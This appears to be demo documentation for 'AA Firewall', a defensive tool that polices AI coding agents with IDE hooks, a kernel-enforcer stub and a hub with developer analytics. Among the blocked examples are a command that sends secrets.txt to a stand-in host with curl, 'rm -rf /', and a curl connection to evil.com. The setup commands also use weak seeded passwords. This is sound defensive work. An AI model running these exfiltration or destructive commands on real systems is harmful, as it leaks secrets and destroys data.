### The 5-Layer Defense Model



### End-to-End Workflow: What Happens When a Developer's Agent Tries to Exfiltrate Code

```
1. Developer prompts Claude Code: "Upload this file to my personal server"

2. LAYER 1 — IDE Hook intercepts:
   Claude Code fires PreToolUse for WebFetch tool.
   Hook handler sends POST /v1/evaluate to daemon.
   Daemon checks: paste.evil.io NOT in allowlist → DENY.
   Hook exits 2. Claude Code sees: "[AA Firewall] BLOCKED."
   ✓ Stopped at Layer 1.

3. Developer opens raw terminal: "curl https://paste.evil.io < secrets.txt"

4. LAYER 4 — Kernel intercepts:
   OS kernel fires sys_enter_connect(paste.evil.io:443).
   KernelEnforcer checks: paste.evil.io NOT in allowed_hosts → DENY.
   connect() syscall returns EPERM.
   Kernel sends audit event to daemon.
   ✓ Stopped at Layer 4. Hook couldn't catch this — kernel did.

5. LAYER 5 — Management Hub aggregates:
   Sentinel agent forwards both events to Management Hub via mTLS.
   Security team sees: 2 exfiltration attempts from developer X.
   Both blocked. Evidence preserved in signed audit trail.
```

### How the Security Team Deploys This

**On the security team's server (Management Hub):**
```bash
sudo ./scripts/deploy_hub.sh \
  --seed-auth \
  --seed-admin-user admin \
  --seed-admin-password "adm1"
```

**On each developer machine (Sentinel — via IT admin or MDM):**
```bash
sudo AA_CENTRAL_URL=https://<hub-server>:9200 ./scripts/deploy_sentinel.sh \
  --seed-auth \
  --seed-dev-user deepankardas \
  --seed-dev-password "dev1"
```

The developer never runs any commands. Governance activates when they open VS Code.

This installs:
- Sentinel agent binary (registered with Management Hub)
- Daemon binary (runs as root via LaunchDaemon)
- Managed Claude Code hooks (developer cannot remove)
- KernelEnforcer stub (API-ready for real eBPF/ESF module)
- mTLS certificates (Sentinel ↔ Hub encrypted communication)

### What the Security Team Controls

| Capability | How | Where |
|---|---|---|
| Push policy to all machines | `PUT /api/v1/policy` on Management Hub | Hub Console or API |
| View all governed developers | `GET /api/v1/clients` on Management Hub | Shows online/stale/offline status |
| View aggregated audit trail | `GET /api/v1/audit` on Management Hub | All events from all machines |
| Toggle enforcement per machine | Sentinel agent receives via heartbeat | Hub → Sentinel → daemon |
| Detect policy drift | Sentinel heartbeat compares policy hash | Auto-syncs on mismatch |
| Export evidence | Daemon `/v1/audit/export` | JSON with hash chain + Ed25519 signature |

---

## Demo Part 8: OS Kernel Enforcer — Stub Invocation Proof

> This part demonstrates the KernelEnforcer interface. The stub implementation logs every syscall evaluation with full context, proving the integration path works. When the real eBPF/ESF kernel module is built, it implements the same interface — zero changes to callers.

> **Why this matters for tamper resistance:** Today, managed hooks prevent removal, the daemon runs as root with KeepAlive (auto-restarts if killed), and admin tokens are required for configuration changes. In Phase 2, the OS kernel enforcer will intercept syscalls directly — closing the raw terminal bypass gap.

### 8.1 Run the OS guard test suite

```bash
cd go && go test -v ./internal/enforcement/osguard/ 2>&1 | head -60
```

You will see 17 tests exercising every enforcement path:

```
=== RUN   TestFileOpen_InsideWorkspace_Allowed
--- PASS: TestFileOpen_InsideWorkspace_Allowed
=== RUN   TestFileOpen_OutsideWorkspace_Denied
--- PASS: TestFileOpen_OutsideWorkspace_Denied
=== RUN   TestFileOpen_DeniedPath_Blocked
--- PASS: TestFileOpen_DeniedPath_Blocked
=== RUN   TestExecve_DeniedExec_Blocked
--- PASS: TestExecve_DeniedExec_Blocked
=== RUN   TestExecve_SafeExec_Allowed
--- PASS: TestExecve_SafeExec_Allowed
=== RUN   TestExecve_CurlBlocked
--- PASS: TestExecve_CurlBlocked
=== RUN   TestConnect_AllowlistedHost_Allowed
--- PASS: TestConnect_AllowlistedHost_Allowed
=== RUN   TestConnect_UnknownHost_Denied
--- PASS: TestConnect_UnknownHost_Denied
=== RUN   TestConnect_WildcardAllowlist
--- PASS: TestConnect_WildcardAllowlist
=== RUN   TestAuditMode_LogsButAllows
--- PASS: TestAuditMode_LogsButAllows
=== RUN   TestDisabledMode_AllowsEverything
--- PASS: TestDisabledMode_AllowsEverything
=== RUN   TestRegisterPolicy_CustomRuleDenies
--- PASS: TestRegisterPolicy_CustomRuleDenies
=== RUN   TestMetrics_TracksCounts
--- PASS: TestMetrics_TracksCounts
=== RUN   TestInvocationRecordsAreCreated
--- PASS: TestInvocationRecordsAreCreated
=== RUN   TestStubNotes_DescribeKernelBehavior
--- PASS: TestStubNotes_DescribeKernelBehavior
```

### 8.2 Examine the invocation log (proof of integration)

After running the tests, a persistent invocation log is created:

```bash
cat build/osguard-invocations.jsonl | python3 -m json.tool --no-ensure-ascii | head -80
```

Each entry shows what the stub did and what a real kernel module would do:

```json
{
    "timestamp": "2026-04-28T06:15:32.123Z",
    "method": "Init",
    "stub_note": "[STUB] Kernel enforcer initialized in 'enforce' mode. A real eBPF module would attach BPF programs to tracepoints (sys_enter_open, sys_enter_execve, sys_enter_connect). A real ESF client would register ES_EVENT_TYPE_AUTH_OPEN, ES_EVENT_TYPE_AUTH_EXEC, ES_EVENT_TYPE_AUTH_CONNECT."
}
{
    "timestamp": "2026-04-28T06:15:32.124Z",
    "method": "EvaluateSyscall",
    "request": {
        "type": "file.open",
        "pid": 1234,
        "process_name": "claude",
        "file_path": "/Users/dev/project/src/main.go"
    },
    "decision": {
        "allow": true,
        "reason_code": "OSGUARD_FILE_ALLOWED"
    },
    "latency_us": 12,
    "stub_note": "[STUB] ALLOW file.open on '/Users/dev/project/src/main.go' by PID 1234 (claude). Real kernel module: BPF program on tracepoint/sys_enter_openat would intercept before the syscall completes."
}
{
    "timestamp": "2026-04-28T06:15:32.125Z",
    "method": "EvaluateSyscall",
    "request": {
        "type": "process.execve",
        "pid": 5678,
        "process_name": "bash",
        "exec_path": "/usr/bin/rm",
        "exec_args": ["-rf", "/"]
    },
    "decision": {
        "allow": false,
        "reason_code": "OSGUARD_DENIED_EXEC"
    },
    "latency_us": 8,
    "stub_note": "[STUB] DENY execve('/usr/bin/rm', [-rf /]) by PID 5678. Real kernel module: BPF program on tracepoint/sys_enter_execve would block before the new process image loads."
}
{
    "timestamp": "2026-04-28T06:15:32.126Z",
    "method": "EvaluateSyscall",
    "request": {
        "type": "network.connect",
        "pid": 9999,
        "process_name": "curl",
        "remote_addr": "1.2.3.4:443",
        "remote_host": "evil.com"
    },
    "decision": {
        "allow": false,
        "reason_code": "OSGUARD_HOST_NOT_ALLOWED"
    },
    "latency_us": 5,
    "stub_note": "[STUB] DENY connect() to 1.2.3.4:443 (evil.com) by PID 9999 (curl). Real kernel module: BPF program on tracepoint/sys_enter_connect or cgroup/connect4 would reject the socket connection."
}
```

### 8.3 What the invocation log proves

| Evidence | What It Shows |
|---|---|
| `method: "Init"` called | The daemon initializes the kernel enforcer at startup |
| `method: "EvaluateSyscall"` called for every file/exec/network action | Every syscall type flows through the enforcer interface |
| `decision: allow/deny` with reason codes | The enforcer makes real governance decisions |
| `stub_note` describes real kernel behavior | Documents exactly what the eBPF/ESF module would do |
| `latency_us: 5-12` | Evaluation is microsecond-fast (kernel module would be similar) |
| `method: "RegisterPolicy"` called | Policy rules are pushed to the enforcer (kernel module would compile to BPF maps) |
| `method: "Shutdown"` called | Clean shutdown path exists (kernel module would detach BPF programs) |

### 8.4 KernelEnforcer API — what the real module implements

The Go interface is defined in `go/internal/enforcement/osguard/kernel.go`:

```go
type KernelEnforcer interface {
    Init(config EnforcerConfig) error              // Load kernel module, attach to syscalls
    EvaluateSyscall(req SyscallRequest) SyscallDecision  // Allow or deny a syscall
    RegisterPolicy(rules []KernelRule) error        // Push rules to kernel (BPF maps)
    GetMetrics() KernelMetrics                      // Enforcement statistics
    Shutdown() error                                // Unload kernel module
}
```

The `StubEnforcer` implements this interface today. A real `EbpfEnforcer` (Linux) or `EsfEnforcer` (macOS) implements the same 5 methods — the daemon and all callers remain unchanged.

### 8.5 Three enforcement modes

```bash
# Run in enforce mode (deny blocked actions)
AA_OSGUARD_MODE=enforce ./go/bin/aafirewall-daemon

# Run in audit mode (log but don't block — safe for rollout)
AA_OSGUARD_MODE=audit ./go/bin/aafirewall-daemon

# Disabled (no kernel enforcement)
AA_OSGUARD_MODE=off ./go/bin/aafirewall-daemon
```

In audit mode, the stub logs `"log_only": true` — the decision is computed but not enforced. This allows safe rollout of the real kernel module: deploy in audit mode, verify no false positives in the invocation log, then switch to enforce mode.

---

## Demo Part 9: Enterprise Analytics and Developer Intelligence

> **In two-machine deployment:** The analytics dashboard is on the Hub Console (`http://<hub-server>:9201/analytics`). The developer sees their personal scorecard on the Sentinel Console (`http://localhost:9100/developer/me`). The Hub aggregates data from all Sentinels — the admin sees org-wide analytics.

> This part demonstrates the analytics dashboard that helps admins manage thousands of developers. Instead of reviewing individual audit events, the admin sees actionable intelligence.

### 9.1 View the analytics dashboard

Open http://localhost:9201/analytics in your browser.

You will see 5 sections:

**Key Metrics Bar** — 4 real-time cards:
- Active Developers (count)
- Org Compliance Rate (percentage, color-coded: green >95%, amber >90%, red <90%)
- Blocks Today (count)
- Pending Approvals (count)

**Blocked Operations** — stack-ranked horizontal bar chart:
- Top 10 blocked operations by count (today / 7 days / 30 days)
- Each bar shows action type, reason code, count, and trend arrow (up/down vs prior period)
- Admin clicks any bar to drill into specific events on `/search` (event-level table, not inline on analytics)

**Developer Groups** — donut chart + table:
- Auto-classified from audit data (no manual tagging):

| Group | Icon | Who They Are | Suggested Action |
|---|---|---|---|
| Power Builder | ⚡ | Senior engineers, >200 actions/day, <2% blocks | Auto-approve npm install |
| Cautious Contributor | 🛡️ | Junior devs, 20-50 actions/day, 0% blocks | No change needed |
| Tool Explorer | 🔬 | Prototypers, high MCP/package activity | Review but expected |
| Boundary Tester | ⚠️ | >5% block rate, repeated denials | Investigate |
| Automation Driver | 🤖 | DevOps, >100 shell.exec/day | Infra exceptions |
| Data Accessor | 🔑 | Backend devs, credential patterns | Scoped cred access |
| Network Heavy | 🌐 | API integrators, >20 unique hosts | Expand allowlist |
| Night Owl | 🌙 | >30% off-hours activity | Adjust timeout policy |
| New Joiner | 🆕 | <30 days tenure, high block rate | Onboarding mode |
| Dormant Agent | 💤 | <5 actions last 7 days | Adoption tracking |

**Policy Recommendations** — actionable suggestions:
- Each card shows: title, description, estimated impact, risk, target group
- One-click **Apply** button executes the recommendation
- Example: *"85% of npm install approvals are approved within 10 seconds. Auto-approve for Power Builder group. Saves ~720 approval interactions/week."*

**Friction Heatmap** — policy × group matrix:
- Rows: policies (npm install, outside-project, unknown host, credentials, rm -rf, docker/kubectl)
- Columns: developer groups
- Cells: green (0 blocks), amber (1-10), red (>10)
- Admin clicks any red cell to open filtered event results on `/search`

Drilldown behavior (current):
- Hierarchical flow: `Dashboard/Analytics aggregate` -> `Search filtered events` -> `Session detail`
- No circular drilldowns back into aggregate pages
- Browser back returns one level cleanly (no intermediate redirect hop)

### 9.2 View a developer's awareness scorecard

Open the Sentinel console scorecard at:

- `http://localhost:9100/developer/me`

In Hub mode, admins use `/search?actor_user_id=<user>` and `/sessions` for per-developer event drilldown.

The developer sees:
- **Group badge** — which behavioral group they belong to (e.g., ⚡ Power Builder)
- **Compliance score** — e.g., 98.7% (color-coded vs org average of 96.2%)
- **Block rate trend** — improving / stable / declining with arrow icon
- **Action breakdown** — total actions, blocked, approved
- **Tips** — personalized suggestions based on their most common block reasons
  - *"You were blocked 8 times writing to ~/.config/. Project config files should live in your project root."*
  - *"Use the .env.example pattern instead of reading ~/.aws/credentials."*
- **Weekly summary** — text digest of their activity and compliance

### 9.3 Query the analytics API directly

```bash
TOKEN=$(cat /tmp/aa-firewall-admin-token 2>/dev/null || echo "your-admin-token")

# Stack-ranked blocked operations (last 7 days)
curl -s "http://localhost:9201/api/v1/analytics/blocked-operations?period=7d" \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool

# Auto-classified developer groups
curl -s "http://localhost:9201/api/v1/analytics/groups" \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool

# Policy recommendations
curl -s "http://localhost:9201/api/v1/analytics/recommendations" \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool

# Developer scorecard
curl -s "http://localhost:9201/api/v1/analytics/developer/deepankardas" \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool
```

### 9.4 What the analytics enables

| Without Analytics | With Analytics |
|---|---|
| Admin reviews individual audit events | Admin sees stack-ranked operations and trends |
| Manual developer categorization | Auto-classified into 10 behavioral groups |
| Guessing which policies cause friction | Friction heatmap shows exact policy × group impact |
| No guidance for developers | Per-developer scorecards with tips and trends |
| Policy changes require investigation | One-click recommendations with impact estimates |
| Org-wide decisions require weeks of analysis | Dashboard shows the picture in seconds |

---

## Cleanup

```bash
# Stop all services
lsof -ti tcp:9100 | xargs kill -TERM 2>/dev/null
lsof -ti tcp:9100 | xargs kill -TERM 2>/dev/null

# Remove hooks (if installed)
./scripts/install-hooks.sh --uninstall 2>/dev/null

# Verify clean
curl -sf http://localhost:9100/v1/health || echo "Daemon stopped."
```
